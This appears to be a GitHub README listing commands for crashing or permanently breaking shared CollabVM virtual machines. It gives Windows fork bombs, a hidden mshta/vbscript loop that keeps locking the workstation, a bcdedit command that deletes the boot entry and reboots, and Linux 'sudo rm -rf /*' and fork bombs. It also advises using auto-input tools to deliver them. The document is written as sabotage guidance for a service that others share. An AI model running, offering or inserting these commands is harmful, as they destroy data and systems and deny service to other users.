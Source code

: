 # Commands that destroy CollabVM virtual machines

To crash the VM, you must execute one of them in the "Run" window or in the command line (cmd). To do this, it is strongly recommended to use auto-input programs.

## Windows

1. Classic fork bomb. May be closed.

```batch
cmd /c echo %0^|%0>1.bat&1.bat
```

2. Infinite blocking the windows user + pseudo fork bomb. Unclosable, only reboot helps.

```batch
cmd /k for /l %x in (1, 1, 9999999) do (start cmd /k rundll32 user32,LockWorkStation)
```

3. Hidden infinite blocking the windows user (not a forkbomb). Unclosable, Perfect way to block VM, only reboot helps.
```batch
cmd /c mshta vbscript:(CreateObject("WScript.Shell").Run("cmd /k for /l %x in (1, 1, 999999) do rundll32 user32,LockWorkStation """,0))(Window.Close)
```

4. Delete windows from bootloader and reboot (the system will no longer be able to boot. Run from cmd started as admin (RMB on cmd -> Run as admin).

```batch
cmd /k bcdedit /delete {current}&wmic os primary=1 reboot
```

## Linux

You must run "Terminal" program and execute command there.

1. Needs no introduction

```bash
sudo rm -rf /*
```

2. Bash fork bomb. May not work due to fork restrictions.

```bash
:(){ :|:& };:
```

3. Perl fork bomb. May not work due to fork restrictions.

```bash
perl -e "fork while fork" &
```
